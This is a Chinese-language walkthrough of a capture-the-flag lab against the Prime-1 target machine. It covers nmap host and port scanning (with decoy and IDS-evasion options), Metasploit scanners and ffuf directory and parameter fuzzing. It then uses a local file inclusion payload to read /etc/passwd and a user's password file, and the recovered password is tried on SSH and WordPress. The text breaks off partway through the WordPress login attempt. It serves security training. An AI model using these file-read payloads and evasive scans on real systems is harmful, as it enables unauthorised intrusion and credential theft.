# 发现靶机与端口
## nmap工具扫描局域网
**Nmap**（全称 Network Mapper，网络映射器）是一款开源的网络探测和安全审核工具，由 Gordon Lyon（Fyodor）开发。它被广泛用于网络发现、安全扫描、端口扫描、服务版本探测、操作系统指纹识别等场景。Nmap 的设计目标是快速扫描大型网络，但同样适用于单个主机或小规模网络。

Nmap 通过发送精心构造的原始 IP 数据包（raw IP packets）来探测目标，并根据响应来判断主机状态、开放端口、服务信息等。它支持多种扫描技术，能绕过防火墙/IDS，并提供丰富的输出格式和脚本引擎（NSE）。最新版本（截至 2026 年）约为 7.96 系列，官方站点为 https://nmap.org。

### 1. 安装与基本用法
- **Linux/macOS**：大多数发行版自带（如 `apt install nmap` 或 `brew install nmap`）。
- **Windows**：从官网下载安装包或使用 Chocolatey。
- **基本命令格式**：
  ```
  nmap [扫描类型] [选项] {目标}
  ```
  示例（最简单扫描）：
  ```
  nmap 192.168.1.1          # 扫描单个 IP
  nmap 192.168.1.0/24       # 扫描整个子网
  nmap example.com          # 扫描域名
  ```

不带参数运行 nmap 会显示**选项概要**（下面会详细列出）。

### 2. 选项概要（完整列表）
以下是官方选项概要（来自 Nmap 中文手册），按功能分类整理。每个选项后面附带简要描述。

#### **目标指定（Target Specification）**
- `-iL <inputfilename>`：从文件读取目标列表（每行一个主机/IP/网段）。
- `-iR <num hosts>`：随机选择指定数量的主机扫描（常用于互联网大范围扫描）。
- `--exclude <host1[,host2]...>`：排除某些主机/网段。
- `--excludefile <exclude_file>`：从文件排除列表。

#### **主机发现（Host Discovery）**
- `-sL`：仅列出目标，不扫描（列表扫描）。
- `-sn`（旧版 `-sP`）：Ping 扫描，仅检查主机是否在线。
- `-Pn`（旧版 `-P0`）：跳过主机发现，认为所有目标都在线。
- `-PS/PA/PU [portlist]`：TCP SYN/ACK 或 UDP 探测指定端口。
- `-PE/PP/PM`：ICMP echo、timestamp、netmask 请求。
- `-n` / `-R`：不进行 / 始终进行 DNS 解析。

#### **扫描技术（Scan Techniques）**
- `-sS`：TCP SYN 扫描（默认，最快、最常用，半开放）。
- `-sT`：TCP connect() 扫描（非 root 用户可用，建立完整连接）。
- `-sU`：UDP 扫描。
- `-sN/-sF/-sX`：TCP Null/FIN/Xmas 扫描（隐蔽扫描）。
- `-sA`：TCP ACK 扫描（探测防火墙规则）。
- `-sW/-sM`：TCP Window/Maimon 扫描。
- `--scanflags <flags>`：自定义 TCP 标志位。
- `-sI <zombie host[:probeport]>`：Idle（空闲）扫描（极致隐蔽）。
- `-sO`：IP 协议扫描。
- `-b <ftp relay host>`：FTP bounce 扫描（已很少使用）。

#### **端口指定和扫描顺序**
- `-p <port ranges>`：指定端口（如 `-p 1-65535`、`-p 80,443`、`-p U:53,T:80`）。
- `-F`：快速扫描（仅扫描 nmap-services 中最常见的 100 个端口）。
- `-r`：按顺序扫描端口（默认随机化）。

#### **服务/版本探测**
- `-sV`：探测开放端口的服务与版本。
- `--version-light` / `--version-all`：轻量/完整版本探测。
- `--version-trace`：显示版本探测调试信息。

#### **操作系统探测**
- `-O`：启用 OS 检测（指纹识别）。
- `--osscan-limit` / `--osscan-guess`：限制或激进猜测 OS。

#### **时间和性能（Timing and Performance）**
- `-T[0-6]`：时间模板（0=Paranoid 极慢隐蔽，3=Normal 默认，5=Insane 极快）。
- `--min-hostgroup / --max-hostgroup <size>`：并行主机组大小。
- `--min-parallelism / --max-parallelism <num>`：探测报文并行度。
- `--min-rtt-timeout / --max-rtt-timeout / --initial-rtt-timeout <msec>`：往返时间超时设置。
- `--host-timeout <msec>`：单个主机超时放弃。
- `--scan-delay / --max-scan-delay <msec>`：探测间隔延迟（躲避 IDS）。

#### **防火墙/IDS 躲避和哄骗**
- `-f / --mtu <val>`：分片数据包。
- `-D <decoy1,decoy2[,ME],...>`：诱饵 IP（伪装扫描源）。
- `-S <IP>`：伪造源地址。
- `-e <iface>`：指定网络接口。
- `-g / --source-port <portnum>`：伪造源端口。
- `--data-length <num>`：在报文中附加随机数据。
- `--ttl <val>`：设置 IP TTL。
- `--spoof-mac <mac>`：伪造 MAC 地址。

#### **输出（Output）**
- `-oN/-oX/-oS/-oG <file>`：普通、XML、Script kiddie、Grepable 格式输出。
- `-oA <basename>`：同时输出三种主要格式。
- `-v`：增加详细度（`-vv` 更详细）。
- `-d[level]`：调试级别（最高 9）。
- `--packet-trace`：跟踪所有收发包。
- `--resume <file>`：恢复中断扫描。

#### **杂项（Miscellaneous）**
- `-6`：IPv6 扫描。
- `-A`：启用 OS 检测 + 版本探测 + 脚本 + Traceroute（Aggressive 模式）。
- `--script <script>` / `-sC`：Nmap Scripting Engine（NSE）脚本扫描。
- `-V / -h`：显示版本 / 帮助。

### 3. 端口扫描技术详细讲解
Nmap 支持十多种扫描方式，大多数需要 root 权限（原始套接字）。默认使用 `-sS`（SYN 扫描）。以下是核心类型（官方手册摘录）：

- **`-sS` (TCP SYN 扫描)**：最推荐。发送 SYN 包，不完成三次握手。响应 SYN/ACK → open；RST → closed；无响应/ICMP → filtered。
- **`-sT` (TCP connect() 扫描)**：非 root 用户唯一选择，建立完整 TCP 连接，较慢且易被日志记录。
- **`-sU` (UDP 扫描)**：扫描 UDP 服务（如 DNS 53），速度慢，常与 TCP 结合使用（`-sS -sU`）。
- **`-sN/-sF/-sX`**：隐蔽扫描，利用 RFC 不规范行为绕过无状态防火墙（开放端口通常无响应）。
- **`-sI` (Idle 扫描)**：使用“僵尸主机”进行盲扫描，IDS 几乎无法追踪到真实扫描者（极高级）。
- **`-sO` (IP 协议扫描)**：扫描支持的 IP 协议号，而非端口。

### 4. 时间与性能优化
Nmap 扫描速度可通过以下选项大幅调整（官方手册）：

- **`-T4` / `-T5`**：推荐用于可靠网络（Aggressive/Insane），极大加快扫描。
- **并行度**：`--min-parallelism 10` 增加并发报文。
- **超时**：本地网络设 `--max-rtt-timeout 100` 可显著提速。
- **主机组**：大网段用 `--max-hostgroup 2048`。
- **延迟**：`--scan-delay 1000` 适合躲避 IDS。

### 5. 高级功能
- **NSE 脚本引擎**：`-sC`（默认脚本）或 `--script vuln`（漏洞脚本）、`--script http-enum` 等。脚本目录在 `/usr/share/nmap/scripts/`。
- **Traceroute**：`--traceroute` 显示路径。
- **Aggressive 模式**：`-A` = `-O -sV -sC --traceroute` 一键全能扫描。

### 6. 实用示例
- 完整扫描（推荐入门）：
  ```
  nmap -A -T4 -v 192.168.1.1
  ```
- 快速端口 + 服务版本：
  ```
  nmap -sV -F 192.168.1.0/24
  ```
- 隐蔽扫描 + 诱饵：
  ```
  nmap -sS -D 192.168.1.100,ME -T2 target.com
  ```
- 仅 UDP + 脚本：
  ```
  nmap -sU -sC --top-ports 100 8.8.8.8
  ```
- 输出到文件：
  ```
  nmap -oX result.xml -A target
  ```

### 7. 注意事项
- **权限**：多数高级扫描需要 `sudo`。
- **合法性**：仅在授权环境下使用，扫描他人网络可能违法。
- **性能**：大规模扫描前先用 `-T3` 测试，避免被封禁或网络拥堵。
- **更新**：定期 `nmap --script-updatedb` 更新脚本库。

**完整中文手册**：https://nmap.org/man/zh/（分章节，非常详细，推荐结合阅读）。  
**英文完整参考**：https://nmap.org/book/man.html。

### 🎃
kali虚拟机的ip是`192.168.64.2`
所以扫描网段`192.168.64.0/24`
```
nmap -sn 192.168.64.0/24
```
输出如下：


192.168.64.1是网关，除了kali，就只剩下一个`192.168.64.3`

指定ip地址，然后探测其开放的端口与对应的应用版本：
```
nmap -sV 192.168.64.3
```
输出如下：


可以看出开放了2个端口：
- 22 tcp OpenSSH 7.2
- 80 tcp http Apache httpd 2.4.18

## metasploit工具扫描局域网
使用msf搜索可用的扫描模块：
```
search type:auxiliary path:scanner smb          # SMB 相关扫描
search type:auxiliary path:scanner http         # HTTP/网页相关
search type:auxiliary path:scanner portscan     # 端口扫描
search type:auxiliary path:scanner discovery    # 主机发现
search type:auxiliary path:scanner ssh          # SSH
search type:auxiliary path:scanner mysql        # MySQL
search type:auxiliary path:scanner ftp          # FTP
search type:auxiliary path:scanner _version     # 所有版本探测模块（_version 结尾的很多）
search type:auxiliary path:scanner smb login    # SMB 弱密码爆破
search type:auxiliary path:scanner http dir     # 目录扫描
search name:login type:auxiliary path:scanner   # 所有 login（爆破）模块
```



```shell
msf > use auxiliary/scanner/discovery/udp_sweep
```



```shell
msf > set rhosts 192.168.64.0/24
```



好吧，没有发现；现在试试端口扫描：



```shell
msf > use auxiliary/scanner/portscan/tcp
```



```shell
msf > set rhosts 192.168.64.3
```


端口是扫到了。

---

# 访问http服务，执行目录扫描，文件扫描，文件参数扫描
访问`http://192.168.64.3:80`，显示如下：




### 在kali里面自带的扫描目录的字典有：

#### 1. **主要目录扫描字典路径**
- **/usr/share/wordlists/dirb/**  
  这是 **dirb** 工具专用的目录，里面有多个常用字典（通过软链接指向 /usr/share/wordlists/dirb）：
  - `common.txt`：最常用的小型字典（约 4000+ 条），包含常见目录和文件（如 admin、backup、login 等），适合快速扫描。
  - `big.txt`：较大的通用字典。
  - `catala.txt`、`spanish.txt` 等语言特定字典。
  - 其他如 `mutations_common.txt`、`others/` 子目录下的扩展字典。

- **/usr/share/wordlists/dirbuster/**（或通过软链接 /usr/share/wordlists/dirbuster）  
  **DirBuster** 工具的专用字典：
  - `directory-list-2.3-small.txt`
  - `directory-list-2.3-medium.txt`
  - `directory-list-2.3-big.txt` 等  
  这些是经典的目录列表字典，medium 版本平衡了大小和覆盖率，常用于 DirBuster、gobuster 等工具。

- **/usr/share/seclists/**（推荐安装 seclists 包后使用）  
  如果你安装了 `seclists`（`sudo apt install seclists`），这里有更全面的 **Discovery/Web-Content/** 子目录，包含大量高质量目录扫描字典，如：
  - `directory-list-2.3-medium.txt`
  - `common.txt`
  - `raft-*.txt` 系列（更大更全）
  - CMS 特定（如 WordPress、Joomla）目录等。  
  这比 dirb/dirbuster 更丰富，很多现代工具（如 gobuster、dirsearch）都推荐用这里的字典。

#### 2. **其他相关路径**
- **/usr/share/wordlists/**（总目录）  
  这里是 Kali 字典的入口，很多工具会软链接到这里。你可以用 `ls /usr/share/wordlists/` 查看，包括 dirb、dirbuster 等链接。
- **/usr/share/dirb/wordlists/**（dirb 工具原始路径，与上面一致）。

#### 3. **常用目录扫描工具及字典示例**
- **dirb**：`dirb http://target/ /usr/share/wordlists/dirb/common.txt`
- **gobuster**：`gobuster dir -u http://target/ -w /usr/share/wordlists/dirb/common.txt`（或用 dirbuster 的 medium.txt）
- **dirsearch**：`dirsearch -u http://target/ -w /usr/share/wordlists/dirb/common.txt`
- **DirBuster**（GUI 工具）：默认加载 dirbuster 目录下的列表。

#### 小贴士
- **rockyou.txt.gz** 在 `/usr/share/wordlists/` 下，但这是**密码字典**（需 `gunzip` 解压），不适合目录扫描。
- 如果字典不够用，强烈建议安装 `seclists`：`sudo apt update && sudo apt install seclists`，它会提供几百个高质量字典。
- 查看所有字典：`ls -R /usr/share/wordlists/ | grep -E '\.txt$|\.lst$'`

直接在终端输入 `locate common.txt` 或 `ls /usr/share/wordlists/dirb/` 就能快速看到具体文件。如果你的 Kali 版本较新，路径基本一致，但建议用 `updatedb && locate dirb` 确认。


## 尝试使用ffuf
语言：Go，速度极快，支持递归、多线程、各种 fuzz 模式。
```shell
sudo apt install ffuf
```
- `-u` 指定 URL
- `FUZZ` 是占位符
- `-w` 字典
- `-e` 扩展名
- `-fc` 403     过滤 403 状态码
- `-mc` 200     匹配 200 状态码
- `-ac` 自动过滤

```shell
$ ffuf -u http://192.168.64.3:80/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.zip,.txt,.html,.js,.htaccesss -ac
```
结果如下：

很明显有文件`secret.txt`，可以看一看；有wordpress文件夹，CMS可能是wordpress.

`secret.txt`文件内容如下：


**接下来尝试对2个php文件的参数进行爆破**
- `index.php`文件
    ```shell
    ffuf -u http://192.168.64.3:80/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -mc 200 301 302 -fc 403 -ac
    ```
    结果如下：
    
    有参数`file`。

- `image.php`文件
    ```shell
    ffuf -u http://192.168.64.3:80/image.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -mc 200 301 302 -fc 403 -ac
    ```
    结果如下：
    
    没有发现什么参数。

## 发现有参数`file`用着看看
访问一下
```http
http://192.168.64.3:80/index.php?file=1
http://192.168.64.3:80/index.php?file=100
http://192.168.64.3:80/index.php?file=/etc/passwd
```
页面显示如下：


说明参数`file`后面的内容不对。上面提到的`locaton.txt`会不会就是使用在这里：
```http
http://192.168.64.3:80/index.php?file=location.txt
```
页面出现如下内容：


## 利用LFI
经过提示，可以得到url：`http://192.168.64.3:80/image.php?secrettier360=`
继续尝试LFI:
```http
http://192.168.64.3:80/image.php?secrettier360=/etc/passwd
```
得到如下界面：

从输出的文件中可以比较清楚的看到`find password.txt file in my directory`

于是继续利用LFI去访问：
```http
http://192.168.64.3:80/image.php?secrettier360=/home/saket/password.txt
```
页面显示如下：

因为文件名是password，所以有足够的理由认为`follow_the_ippsec`就是密码。

联系到前面有ssh端口开放，尝试去登陆：
```
saket: follow_the_ippsec
victor: follow_the_ippsec
```
都不行。
直接在prime-1界面输入victor的密码，也不行。

前面有扫到worpress，感觉可以利用一下。

## wordpress
> !这里的prime-1靶机出了一点问题，IP地址变为了`192.168.64.5`!

### 爆破wordpress下面的文件
```shell
$ ffuf -u http://192.168.64.5:80/wordpress/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.zip,.txt,.html,.js,.htaccesss -ac
```
得到如下结果：


不知道为什么我这里访问wordpress会出现问题，打开查看源码，会发现如下问题：


从源码里面可以很清楚的发现，原本应该是`192.168.64.5`的地址变成了`192.168.64.5%20fd35:96db:d611:221f:c0cc:9293:2174:5e78%20fd35:96db:d611:221f:a260:9d2:3a71:e408`，后面一段似乎是一个ipv6地址，考虑使用Burp Suite来过滤替换。
在Burp Suite的HTTP规则里面添加规则：
- Request Header: `192.168.64.5%20fd35:96db:d611:221f:c0cc:9293:2174:5e78%20fd35:96db:d611:221f:a260:9d2:3a71:e408` ➡️ `192.168.64.5`
- Response Body: `192.168.64.5%20fd35:96db:d611:221f:c0cc:9293:2174:5e78%20fd35:96db:d611:221f:a260:9d2:3a71:e408` ➡️ `192.168.64.5`

访问`http://192.168.64.5:80/wordpress/wp-login.php`:
尝试上面的密码登陆：`Username:victor; Password:follow_the_ippsec`
页面出现了问题：


这是因为替换导致的Content-Length不匹配，所以打开Burp Suite，添加一条规则：(去掉Content-Length这个一行，让浏览器自己确定Response的长度)
- Response Header: `^Content-Length: \d+` ➡️ ` `, 勾选下面的`Regex match`

再次访问`http://192.168.64.5:80/wordpress/wp-login.php`，输入用户名和密码，还是不行，于是开启Burp Suite抓包，在Response里面看到如下：
